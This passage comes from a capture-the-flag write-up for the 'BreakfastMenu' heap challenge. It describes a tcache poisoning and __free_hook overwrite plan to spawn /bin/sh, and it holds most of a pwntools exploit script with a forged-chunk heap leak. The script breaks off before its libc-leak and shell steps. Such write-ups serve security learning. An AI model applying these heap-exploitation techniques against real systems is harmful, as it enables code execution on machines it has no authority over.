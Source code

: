 If we can leak the `libc` address, we can easily write the `__free_hook` to the `tcachebin` using the `Edit` function. Similarly, we can write the address of the `system` function to `__free_hook`, so we can start `/bin/sh` by freeing the `chunk` that wrote `/bin/sh`.

## Exploit code:
The Exploit code is below.
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BreakfastMenu'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "breakfast.sdc.tf"
  PORT = 1337
  s = remote(HOST, PORT)
  heap_offset = 0x2300
else:
  s = process(BINARY)
  heap_offset = 0x1700
libc = elf.libc

def Create():
  s.sendlineafter("leave\n", "1")

def Edit(idx, data):
  s.sendlineafter("leave\n", "2")
  s.sendlineafter("modify\n", str(idx))
  s.sendlineafter("order?\n", data)

def Delete(idx):
  s.sendlineafter("leave\n", "3")
  s.sendlineafter("remove\n", str(idx))

for i in range(6):
  Create()

# Make fake chunk sizeof 0x3c0 for heap leaking
Delete(4)
Delete(5)
Edit(5, "\x00")
Create()
Create()
Edit(2, "A"*0x18+p64(0x3c1))

# Heap leak
Delete(7)
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1b)

s.recvuntil("\x00"*0x20)
heap_leak = u64(s.recv(8))
heap_base = heap_leak - heap_offset
print "heap_leak =", hex(heap_leak)
print "heap_base =", hex(heap_base)

# Make large chunk in tcache
Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x210))
Create()
```
